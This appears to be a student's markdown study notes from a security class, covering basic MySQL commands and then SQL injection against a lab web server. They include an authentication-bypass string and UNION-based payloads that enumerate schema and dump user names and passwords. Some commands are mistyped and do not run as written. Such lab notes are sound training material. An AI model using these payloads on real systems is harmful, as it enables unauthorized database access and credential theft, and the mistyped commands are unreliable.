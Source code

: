 # SQL
Basic SQL Commands:

![Screenshot from 2023-09-28 08-47-57](https://github.com/hannahsfrommt/Security/assets/140441321/8b7b4f3b-c9b2-4d4d-b543-86e5ec5703d5)

## DEMO  
`SHOW databases;`
performane_schema is automatically generated  
database > tables > rows and columns  
`SHOW TABLES FROM <database>;`  
`SELECT * FROM session.car;  ` 
select everything in the car table in session database   
`SELECT name, cost, Year FROM session.car;  `
`SELECT * FROM session.car UNION SELECT tireid,name,size,cost,1,2 FROM session.Tires; `
have to put 1 and 2 as placeholders, shows both tables at the same time ut car table has more # of columns thats why you need the placeholders   

## cont
informations_schema is default database holds information go to money maker to find out tables and such  
`SHOW dataases;`
`SHOW * FROM information_schema;`
important ones are Tables, Columns, Databases = table_schema  
`SELECT Table_schema, table_name, Column_name FROM information_schema.Columns;`

|------------------------------------|
|          admin' OR 1= '1           |
|------------------------------------|

if this works it shows that it is vulnerable to sql injection  

### POST to GET  
when submitting things like this it is a POST so we can maybe change it to a GET request  
f12 - network - select POST - copy raw data you put in  
<url> ?<ctrl+v>  
```
http://10.50.38.117/Union.html  
Audi' UNION select 1,2,3 # -   
```
add more numbers to see what prints stuff out  
see num 2 isnt showing in the table, understand that whatever is in that place we will not see  
```
Audi' UNION select Table_schema,2,table_name,column_name,5 FROM Information_schema.columns#  
Audi' UNION SELECT id,2,name,pass,5 FROM session.user#  
```

### GET to POST  
```
http://10.50.38.117/uniondemo.php?Selection=1&Submit=Submit  
http://10.50.38.117/uniondemo.php?Selection=1 or 1=1;  
http://10.50.38.117/uniondemo.php?Selection=2 or 1=1;
```
fuzz page change selection to 2   
`http://10.50.38.117/uniondemo.php?Selection=2 UNION select 1,2,3 #  `
see that 2 and 3 got swapped  
`10.50.38.117/uniondemo.php?Selection=2 UNION select Table_schema, column_name, table_name FROM information_schema.columns#   `
http://10.50.38.117/uniondemo.php?Selection=2 UNION SELECT type,color,name FROM 20session.car#  



